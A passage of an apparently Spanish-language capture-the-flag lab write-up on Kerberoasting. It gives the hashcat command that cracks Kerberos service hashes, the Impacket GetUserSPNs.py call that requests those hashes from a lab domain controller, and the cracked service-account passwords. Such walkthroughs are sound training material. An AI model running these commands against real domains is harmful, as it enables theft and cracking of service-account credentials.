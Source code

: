     Este ataque es muy efectivo porque no genera bloqueos de cuentas y puede aprovechar contraseñas débiles en servicios antiguos o mal gestionados.
    
- Copiamos los hash en un archivo txt en mi caso hash.txt
    
    ```bash
    nano hash.txt 
    ```
    
    ![image.png](image%2013.png)
    

Puede ser que al copiar los hash los copie en varias líneas.  Formateamos para que nos quede cada hash en una linea.

- Descargamos el archivo de palabras que nos dan el la Room
- Usamos hashcat para descifrar los hash
    
    ```bash
    hashcat -m 13100 -a 0 hash_formateado.txt Pass.txt
    ```
    
    ![image.png](image%2014.png)
    
    HTTPService: `Summer2020`
    
    SQLService: `MYPassword123#`
    

### **Método 2 - Impacket: Kerberoasting con Impacket**

- Nos movemos a **/usr/share/doc/python3-impacket/examples/** donde se encuentra el archivo  GetUserSPNs.py
    
    `cd /usr/share/doc/python3-impacket/examples/`
    
    `dir`
    
    ![image.png](image%2015.png)
    

- Usamos GetUserSPNs.py para  volcará el hash Kerberos para todas las cuentas kerberoastables que pueda encontrar en el dominio. Pero en esta ocasión de forma remota.
    
    ```bash
    sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.237.124 -request
    ```
    
    ![image.png](image%2016.png)
    

- El procedimiento para descifrar estos hash seria el mismo que vimos anteriormente.
    
    ```bash
    hashcat -m 13100 -a 0 hash_formateado.txt Pass.txt
    ```
    
    - Responda las siguientes preguntas
        